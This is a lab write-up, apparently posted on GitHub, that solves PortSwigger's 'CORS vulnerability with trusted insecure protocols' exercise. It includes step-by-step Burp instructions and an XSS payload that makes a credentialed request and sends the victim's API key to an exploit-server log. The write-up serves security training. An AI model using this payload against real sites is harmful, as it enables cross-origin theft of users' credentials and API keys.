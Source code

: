 # CORS - vulnerability with trusted insecure protocols 

## 📌 Lab Details
- **Title**: CORS vulnerability with trusted insecure protocols
- **Difficulty**: Practitioner
- **Category**: Cross-Origin Resource Sharing
- **Lab URL**: https://portswigger.net/academy/labs/launch/c2f3d400e6fb00bebe61e8dca6a98b25a66613b18da83b2279298634c46d7f8e?referrer=%2fweb-security%2fcors%2flab-breaking-https-attack

## 🔍 Summary
This lab exploited **insecure CORS trusting all subdomains regardless of protocol (HTTP/HTTPS)** combined with **XSS in an HTTP subdomain**. Using **XSS on the HTTP subdomain**, you executed JavaScript to send a **credentialed** `XMLHttpRequest` **over HTTPS**, retrieving the **administrator’s API key** via CORS.

## 🛠 Steps to Solve
1. Use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to **Burp Repeater** and resubmit it with the added header: `Origin:http://subdomain.lab-id.com`.
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. Open a product page, click **Check stock** and observe that it is loaded using a HTTP URL on a subdomain.
6. Observe that the `productID` parameter is vulnerable to XSS.
7. Inject the payload on the **Exploit** server:
   ```sh
   <script>
   document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=
   <script> var req= new XMLHttpRequest();
   req.onload=reqListener();
   req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
   req.withCredentials=true;
   req.send();
   function reqListener() {
   location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };
   %3c/script>&storeId=1"
   </script>
  8. Deliver the exploit to the victim and access the log to find the `API` key.

## 📖 Key Takeaways
- CORS misconfigurations can be exploited using **mixed content (HTTP subdomain + HTTPS target)**.
- **XSS on an HTTP subdomain** is leveraged to bypass Same-Origin Policy and steal sensitive data via insecure CORS.
- Servers should **strictly validate origins, enforce HTTPS everywhere**, and sanitize user inputs to prevent XSS.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e6f52a23-41a8-46db-91dc-2d028c7d9658" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/2f8189c8-51fb-470f-afc1-fc51f33ee2c5" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/65371f7c-f930-4322-a943-7cf0788c91b7" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/529e0f55-213a-4777-9ee8-f4ffe8bd3ff5" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/34742e6b-55a8-451b-91cf-f9f272232e71" />
   ```